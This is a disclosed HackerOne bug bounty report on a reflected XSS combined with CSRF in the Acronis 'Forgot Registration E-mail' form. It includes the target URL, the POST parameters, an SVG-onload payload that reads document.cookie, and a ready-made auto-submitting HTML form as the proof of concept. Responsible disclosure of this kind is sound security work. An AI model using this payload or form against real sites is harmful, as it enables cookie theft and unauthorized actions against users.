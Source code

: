 # CSRF and XSS on www.acronis.com

## Report Details
- **Report ID**: 961787
- **URL**: https://hackerone.com/reports/961787
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-08-18T18:43:41.811Z
- **Disclosed**: 2024-08-26T15:33:28.834Z

## Reporter
- **Username**: cabelo
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
Hi team,

I've discovered a XSS Reflected vulnerability on Forgot Registration E-mail form. I performed a POC using CSRF  to inject and execute a javascript code in the POST request.

Target Page: https://www.acronis.com/en-us/my/remind/index.html

POST Data: token=a016902ceaeb6ae91c21302631fbbcfc&SN=818198181891891981981981516518198198&OrderId=&Submit=Send+E-mail%0D%0A

Payload: 1&quot;&lt;!--&gt;&lt;Svg OnLoad=(confirm)(document.cookie)&lt;!--

Steps to reproduce/POC:

CSRF html page:
{F954073}

CORS html  code:
{F954074}

code:
```
<form action=https://www.acronis.com/en-us/my/remind/index.html method=POST><input type=hidden name="token" value="a016902ceaeb6ae91c21302631fbbcfc"><input type=hidden name="SN" value="818198181891891981981981516518198198"><input type=hidden name="OrderId" value=""><input type=hidden name="Submit" value="Send+E-mail%0D%0A"><input type=hidden name="c" value="1&quot;&lt;!--&gt;&lt;Svg OnLoad=(confirm)(document.cookie)&lt;!--"><input type=submit value=XSS-Acronis></form>
```

XSS:
{F954075}

Best Regards.

## Impact

An attacker execute arbitrary JavaScript code in the context of the users website.

## Attachments
- csrf-html.png
- csrf-html-code.png
- xss-acronis-post.png
